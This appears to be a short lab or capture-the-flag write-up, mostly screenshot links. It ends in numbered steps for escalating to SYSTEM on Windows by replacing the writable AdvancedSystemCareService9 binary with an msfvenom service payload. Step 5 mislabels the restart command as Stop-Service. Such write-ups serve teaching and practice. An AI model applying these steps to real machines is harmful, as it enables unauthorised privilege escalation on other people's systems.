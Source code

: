 ![image](https://github.com/user-attachments/assets/1f3d6c05-ca11-4415-be32-3a1e95cdf5fb)
![image](https://github.com/user-attachments/assets/05fbd16e-a0c9-4589-8837-712508f02a6e)
![image](https://github.com/user-attachments/assets/b8e859ce-ce02-489a-a567-4ac2b585bed8)
![image](https://github.com/user-attachments/assets/ed4da553-cb7b-48ae-a1ef-43d50769f600)
![image](https://github.com/user-attachments/assets/65a7f909-2a65-4f2f-a0a1-f2370b189f48)
![image](https://github.com/user-attachments/assets/7f42902c-f931-4b28-894f-f4e5289d2497)
![image](https://github.com/user-attachments/assets/ede0bea3-f4ec-48db-84d4-1212bfc57d60)
![image](https://github.com/user-attachments/assets/df30ba52-5326-4781-9adc-e97e1ce9761c)
![image](https://github.com/user-attachments/assets/9c64fa34-4327-4053-ab06-a8e1d477190f)
![image](https://github.com/user-attachments/assets/44db26ca-ace2-49fd-86e2-0ea4189ad542)
![image](https://github.com/user-attachments/assets/c654f5d6-c79f-4908-ab09-f254b8f84b09)
![image](https://github.com/user-attachments/assets/59087828-022b-4739-bfa8-f96f496984d6)

AdvancedSystemCareService9 -> CanRestart =True -> app ASCService.exe write-able

![image](https://github.com/user-attachments/assets/e3fbaf49-2cbe-4e08-84c7-99faf50f35be)
![image](https://github.com/user-attachments/assets/917edfc3-ba1a-473c-82b1-b8272cc6fe94)
![image](https://github.com/user-attachments/assets/ceecf8ff-2050-463d-a8b5-7cbd7e989729)
![image](https://github.com/user-attachments/assets/6cb1f67f-03f7-439d-ac5e-6c2b9eaad4d5)

1. Check service status -- Get-Service -Name "AdvancedSystemCareService9"

2. Stop service -- Stop-Service AdvancedSystemCareService9

3. Generate payload  -- msfvenom -f exe-service -o ASCService.exe

4. Replace original service exe with payload

5. Restart service -- Stop-Service AdvancedSystemCareService9

6. PrivEsc to SYSTEM

7. If run winPEAS.exe, should see unquoted path for the service
